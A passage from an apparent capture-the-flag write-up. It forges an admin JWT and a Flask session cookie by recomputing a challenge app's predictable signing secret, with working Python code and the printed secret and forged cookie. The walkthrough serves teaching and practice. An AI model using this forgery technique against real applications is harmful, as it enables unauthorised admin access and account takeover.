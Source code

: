 ```python
admin_token = jwt.encode(payload, jwt_secret, algorithm='HS256')
print(f"Admin JWT Token: {admin_token}")
```

This creates a valid JWT token with admin privileges that the server will accept because it's signed with the correct secret.

## Forging the Flask Session

Now that we have the JWT token, we also need to forge the Flask session. The application uses both authentication mechanisms - the Flask session tells the app "you are logged in as Flag user" while the JWT token tells it "you have admin role". We need both to access the admin panel.

To forge the Flask session, we first calculate the Flask session secret using the same predictable pattern. Looking at the source code:

```python
base = os.environ.get("Q_SECRET",has)
app.config['SECRET_KEY'] = hashlib.sha1(("pepper:" + base).encode()).hexdigest()
```

We use `sha1("pepper:qnqsec-default")` which gives us `40913aa300c33db34d976a59975adf18d90a246a`. This is the exact same secret the server uses to sign its session cookies.

Next, we create a Flask application instance with this secret and use its session serializer to create a valid session cookie:

```python
import hashlib
from flask.sessions import SecureCookieSessionInterface
from flask import Flask

# Calculate the Flask session secret (same as server)
flask_secret = hashlib.sha1(b"pepper:qnqsec-default").hexdigest()
print(f"Flask Secret: {flask_secret}")
# Output: 40913aa300c33db34d976a59975adf18d90a246a

# Create Flask app with the same secret
app = Flask(__name__)
app.secret_key = flask_secret

# Create session serializer
session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)

# Forge session as "Flag" user
session_data = {'user': 'Flag'}
forged_session = session_serializer.dumps(session_data)
print(f"Forged Session: {forged_session}")
# Output: eyJ1c2VyIjoiRmxhZyJ9.aPdXOw.m9jtrZIKQvIBAT5URMNCY5sfJU0
```

We set the session data to `{'user': 'Flag'}` which matches what the server would set when the Flag user logs in. The session serializer signs this data with the secret, creating a cookie that the server will accept as valid.
